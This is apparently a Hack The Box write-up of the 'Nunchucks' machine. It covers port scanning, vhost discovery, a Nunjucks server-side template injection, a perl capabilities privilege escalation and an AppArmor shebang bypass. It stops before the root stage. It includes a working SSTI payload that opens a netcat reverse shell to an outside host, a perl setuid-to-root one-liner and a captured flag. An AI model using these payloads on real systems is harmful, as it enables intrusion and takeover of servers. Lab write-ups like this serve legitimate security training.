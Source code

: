 # Nunchucks 
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/07260abf-8e6f-49eb-86fa-aefb6913930f)


## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~/Downloads]
└─$ nmap -p- -sVC 10.10.11.122 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-15 03:41 PDT
Nmap scan report for 10.10.11.122
Host is up (0.042s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c146dbb7459c3782e48f511d85b4721 (RSA)
|   256 a2f42c427465a37c26dd497223827271 (ECDSA)
|_  256 e18d44e7216d7c132fea3b8358aa02b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.76 seconds
```

1. Based from the nmap results, the machine runs a web applicatoin and opens ssh login.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0e52b16f-9ae9-402b-8691-25f5011ffc30)


2. Trying every feature, resulting to nothing interesting. Even when tried to register account, they said it's closed already.
3. Running **dirbuster** found nothing interesting again.
4. But checking the subdomain, by running **gobuster**, found one domain that should be our interest --> `store.nunchucks.htb`.

#### NOTES:
```
Since nunchuck is https --> hence need to add -k

gobuster vhost -u host -w wordlists -k
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3bf45dc4-6fcb-44db-b099-ca71aaf0a13d)


5. Long story short found the vuln at the **Notify Me** textbox --> SSTI.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6408bf16-245e-448e-8c0f-6418f281c85e)


6. The vuln is SSTI as you can see the webserver execute the regex operation.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/22c82c7c-0e2e-4059-b1aa-58148a6c2447)


7. Great! Seems this is our foothold.
8. Anyway, after ran another ssti for flask, it shows nothing.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/16c5bb63-e8f4-4945-a106-1824e140aabb)


9. Not took me long to realized that the template engine used probably is **Nunjucks**. It's easy to guess based from the chall title and programming language used in this webapp.

> WAPPALYZER RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/63734eda-2187-4acd-8dfc-d3889acce18b)


10. Did a little outsource about **Nunjucks Template Engine** exploit.

```
http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3e2f4c37-6109-4a83-bada-54e895ef8553)


11. But we need to revised a little bit.

> REVISED

```
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}@gmail.com
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b9203ea2-0ebb-48f5-ae52-516ac4c9335d)


12. Let's spawn reverse shell with our template payload. Here's the full payload:

> PAYLOAD

```
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.20 1337 >/tmp/f')\")()}}@gmail.com
```

#### NOTE:

```
Use the previous request we sent to repeater then change the JSON email parameter value, it won't work if we tried to catch the request from 0 again.
```

> RESULT - GOT RCEEEEE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ab0062ae-ff95-4cd2-a6a5-a4b52f5232ee)


> GETTING USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/987824cc-b833-48f5-9811-353167867a9b)


## USER FLAG

```
341e52e2c4724a2da3b7af04a076458b
```

13. Actually it took me a while to get the root flag, until I realized the capabilities for perl is vulnerable here.

> To check cap --> run --> getcap -r /

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d4661780-cafc-4725-85f5-46c9dae72057)


14. To do privesc we can use this --> `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`.
15. Anyway dunno why it can't.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/845ae0e5-da06-40b3-b928-468cf63c4d40)


16. Even to get the root flag still can't.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ab4e90d8-637b-4db4-afb7-816f8dbe28a8)


17. Interesting, this kind of thing shall related to **Apparmor**. It's primary purpose is to protect the system and its resources by enforcing fine-grained access control policies on the actions that specific applications or processes can perform.
18. We can prove that interpretation by run --> `cat /etc/apparmor.d/usr.bin.perl`.
19. Noticed there's a .pl file inside /opt/.

> backup.pl

```
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid); 
POSIX::setuid(0); 

my $tmpdir        = "/tmp";
my $backup_main = '/var/www';
my $now = strftime("%Y-%m-%d-%s", localtime);
my $tmpbdir = "$tmpdir/backup_$now";

sub printlog
{
    print "[", strftime("%D %T", localtime), "] $_[0]\n";
}

sub archive
{
    printlog "Archiving...";
    system("/usr/bin/tar -zcf $tmpbdir/backup_$now.tar $backup_main/* 2>/dev/null");
    printlog "Backup complete in $tmpbdir/backup_$now.tar";
}

if ($> != 0) {
    die "You must run this script as root.\n";
}

printlog "Backup starts.";
mkdir($tmpbdir);
&archive;
printlog "Moving $tmpbdir/backup_$now to /opt/web_backups";
system("/usr/bin/mv $tmpbdir/backup_$now.tar /opt/web_backups/");
printlog "Removing temporary directory";
rmdir($tmpbdir);
printlog "Completed";
```

20. What's interesting here is, as user we can execute this backup.pl file.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ecace07c-9ac8-4a6c-9ccd-af99c3922aa5)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b9fd5323-7289-4d85-9a56-4693eb262e2a)


21. Amazing this should allows us to do privesc.
22. But we can't overwrite the backup.pl file. Stuck in a rabbit hole once again.
23. Until I did a research about --> **Apparmor perl bugs** --> https://bugs.launchpad.net/apparmor/+bug/1911431.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0fdb5436-9f02-466c-8435-a288e04eacaa)


24. This means, we can execute scripts with the shebang. Also they won't apply the AppArmor profile to our script.
25. Great! Let's make another .pl file which contains our previous perl payload but we add the shebang.
26. Before that, let's get stable shell.

> USING SSH-KEYGEN METHOD AS USUAL





